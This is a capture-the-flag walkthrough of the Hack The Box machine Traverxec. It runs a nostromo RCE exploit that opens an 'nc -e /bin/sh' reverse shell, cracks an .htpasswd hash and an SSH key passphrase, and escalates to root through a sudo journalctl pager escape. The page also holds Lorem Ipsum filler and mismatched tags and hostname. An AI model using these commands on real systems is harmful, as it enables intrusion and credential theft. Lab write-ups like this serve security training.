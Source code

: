 ```yaml
---
layout: single
title: Traverxec - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-traverxec/traverxec_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-traverxec/traverxec_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n ai.htb
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
    | ssh-hostkey:
    |   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
    |   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
    |_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
    80/tcp open  http    nostromo 1.9.6
    |_http-server-header: nostromo 1.9.6
    |_http-title: TRAVERXEC
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -p- traverxec.htb
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
    80/tcp open  http    nostromo 1.9.6
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -sU traverxec.htb
    PORT     STATE         SERVICE  VERSION
    5353/udp open|filtered zeroconf

2. Enum with Dirb and Nikto, also dirb -X .html for html-extension-files
    .. Server: nostromo 1.9.6


3. Googling nostromo 1.9.6 there is a known RCE vuln (CVE-2019-16278). Download the script and execute.
    root@p3:/opt/htb/machines/traverxec# ./cve-2019-16278.sh traverxec.htb 80 nc -e /bin/sh 10.10.14.10 4488

    root@p3:/opt/shells# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.165] 57834
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)

4. Upgrade the shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    ctrl + z
    stty raw -echo
    fg
    <ENTER>
    <ENTER>
    export TERM=xterm

    www-data@traverxec:/home$ cd david/
    www-data@traverxec:/home/david$ ls -al
    ls: cannot open directory '.': Permission denied

5. Looking for creds for David, start by looking at the webserver - /var/nostromo/conf/
    www-data@traverxec:/var/nostromo/conf$ ls -al
      total 20
      drwxr-xr-x 2 root daemon 4096 Oct 27 16:12 .
      drwxr-xr-x 6 root root   4096 Oct 25 14:43 ..
      -rw-r--r-- 1 root bin      41 Oct 25 15:20 .htpasswd
      -rw-r--r-- 1 root bin    2928 Oct 25 14:26 mimes
      -rw-r--r-- 1 root bin     498 Oct 25 15:20 nhttpd.conf
    www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
      david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

    The password looks like a md5crypt (hash-mode 500), according to hashcat examples page.

6. Crack the hash using hashcat.
    root@p3:/opt/htb/machines/traverxec# hashcat -a0 -m500 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
      Session..........: hashcat
      Status...........: Cracked
      Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
      Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
      Time.Started.....: Mon Nov 18 10:41:10 2019 (6 secs)
      Time.Estimated...: Mon Nov 18 10:41:16 2019 (0 secs)
      Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
      Guess.Queue......: 1/1 (100.00%)
      Speed.#1.........:  1778.3 kH/s (13.23ms) @ Accel:256 Loops:125 Thr:32 Vec:1
      Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
      Progress.........: 10911744/14344385 (76.07%)
      Rejected.........: 0/10911744 (0.00%)
      Restore.Point....: 10616832/14344385 (74.01%)
      Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
      Candidates.#1....: Sabo2008 -> LilHaiti1
      Hardware.Mon.#1..: Temp: 56c Util: 67% Core:1635MHz Mem:6000MHz Bus:16
    root@p3:/opt/htb/machines/traverxec# cat cracked.txt
      $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me

    NOTE: Creds david:Nowonly4me

7. The creds above doesn't seem to be usable anywhere, so looking further in the config-file we find that homedirs are set
   Browsing to http://traverxec.htb/~david/ gives us a landing page where we can't do anything. This landing page is located
   as specified within the nostromo configuration file - /home/david/public_www.

   Trying to browse it locally however gives us another result.

   root@p3:/opt/htb/machines/traverxec# nc -lvnp 4488

    www-data@traverxec:/usr/bin$ export TERM=xterm
    www-data@traverxec:/usr/bin$ ls -alR /home/david/public_www/
    /home/david/public_www/:
      total 16
      drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
      drwx--x--x 5 david david 4096 Oct 25 17:02 ..
      -rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
      drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area

    /home/david/public_www/protected-file-area:
      total 16
      drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
      drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
      -rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
      -rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
    www-data@traverxec:/usr/bin$

8. Extract the .tgz to /dev/shm and recover the private SSH-key
    www-data@traverxec:/dev/shm$ tar -xvzf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
      home/david/.ssh/
      home/david/.ssh/authorized_keys
      home/david/.ssh/id_rsa
      home/david/.ssh/id_rsa.pub

9. Copy id_rsa locally, change it to hash-format using sshng2john, and then crack it.
    root@p3:/usr/share/john# ./sshng2john.py /opt/htb/machines/traverxec/id_rsa > /opt/htb/machines/traverxec/id_rsa.hash
    root@p3:/opt/htb/machines/traverxec# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
      Using default input encoding: UTF-8
      Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
      Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
      Cost 2 (iteration count) is 1 for all loaded hashes
      Will run 12 OpenMP threads
      Note: This format may emit false positives, so it will keep trying even after
      finding a possible candidate.
      Press 'q' or Ctrl-C to abort, almost any other key for status
      hunter           (/opt/htb/machines/traverxec/id_rsa)
      1g 0:00:00:01 DONE (2019-11-18 15:45) 0.5291g/s 7588Kp/s 7588Kc/s 7588KC/s  0125457423 ..*7¡Vamos!
      Session completed

10. Login with cracked creds (david:hunter) and grab user.txt
    root@p3:/opt/htb/machines/traverxec# ssh david@traverxec.htb -i id_rsa
    Enter passphrase for key 'id_rsa':
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

    david@traverxec:~$ cat user.txt
      7db0****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the homedir of david and we find a script for statistics and data collection, server-stats.sh.
   Looking through the code we can see that they execute a line as sudo
      /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat

2. The command journalctl is running as root, and it used with less - that is interactive.
   Running the command by ourselves gives us interaction, reading on gtfobins we can create a shell here by typing !/bin/sh

   david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
     -- Logs begin at Tue 2019-11-19 06:23:10 EST, end at Tue 2019-11-19 07:53:45 EST. --
     Nov 19 07:09:13 traverxec sudo[2226]: pam_unix(sudo:auth): conversation failed
     Nov 19 07:09:13 traverxec sudo[2226]: pam_unix(sudo:auth): auth could not identify password for [www-data]
     Nov 19 07:09:13 traverxec sudo[2226]: www-data : command not allowed ; TTY=pts/3 ; PWD=/var/nostromo ; USER=root ; COMMAND=list
     Nov 19 07:18:33 traverxec su[2387]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/3 ruser=www-data rhost=
     Nov 19 07:18:36 traverxec su[2387]: FAILED SU (to bin) www-data on pts/3
     !/bin/sh
   # id
     uid=0(root) gid=0(root) groups=0(root)
   # cat /root/root.txt
     9aa3****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Journalctl
  https://gtfobins.github.io/gtfobins/journalctl/
